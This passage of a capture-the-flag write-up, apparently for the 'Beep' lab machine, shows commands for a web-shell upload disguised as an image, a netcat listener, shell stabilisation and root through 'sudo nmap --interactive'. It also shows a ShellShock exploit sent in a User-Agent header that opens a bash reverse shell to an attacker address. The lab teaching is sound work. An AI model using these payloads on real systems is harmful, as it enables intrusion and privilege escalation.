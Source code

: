 ```bash
nvim pwn3d.php.jpg
cat !$
nc -nlvp 443

whoami
hostname
ip a
script /dev/null -c bash
# [Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
sudo -l

sudo nmap --interactive
!sh
```

<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Another way to engage the box is to target the other port (**10000**), which has a **Common Gateway Interface** (**CGI**) implemented and is susceptible to **[ShellShock attack](https://blog.cloudflare.com/inside-shellshock/){:target="_blank"}**. First I test the vulnerability by sending a trace with `ping` to my attacking machine and then I can send a **Reverse Shell** to myself.

```bash
https://10.10.10.7:10000/session_login.cgi
# CGI!!!      Vulnerable to Shell Shock Attack?

tcpdump -i tun0 icmp -n
curl -H "User-Agent: () { :; }; ping -c 1 10.10.14.56" https://10.10.10.7:10000/ -k
# :)

nc -nlvp 443
curl -H "User-Agent: () { :; }; /bin/bash -i >&/dev/tcp/10.10.14.56/443 0>&1" https://10.10.10.7:10000/ -k

whoami
ip a
```
